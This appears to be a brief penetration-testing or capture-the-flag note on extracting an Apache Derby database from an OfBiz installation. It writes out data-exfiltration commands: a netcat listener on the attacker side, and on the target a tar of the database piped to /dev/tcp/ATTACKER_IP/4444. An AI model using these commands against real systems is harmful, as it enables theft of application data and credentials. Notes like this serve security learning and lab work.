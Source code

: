 # Apache Derby Embedded Java Database

### Encountered in applications: 

#### 1) OfBiz (Location: /opt/ofbiz)

## Database extraction

### Steps

## Attacker

 - sudo apt install derby-tools (Install the tool needed to interact with the database)

 - nc -nlvp 4444 > ofbiz.tar (On attacking machine, run netcat to open a port, then send all data to the .jar file to download the database)

## Target Machine

 - cd /opt/ofbiz/runtime/data/derby

 - tar cvf ofbiz.tar ofbiz

 - cat ofbiz.tar > /dev/tcp/ATTACKER_IP/4444 (Compress the entire database with tar, then write all data to our listener)

## Once downloaded, we extract the archive and use ij to inspect the database on our attacking machine

 - tar xvf ofbiz.tar

 - ij
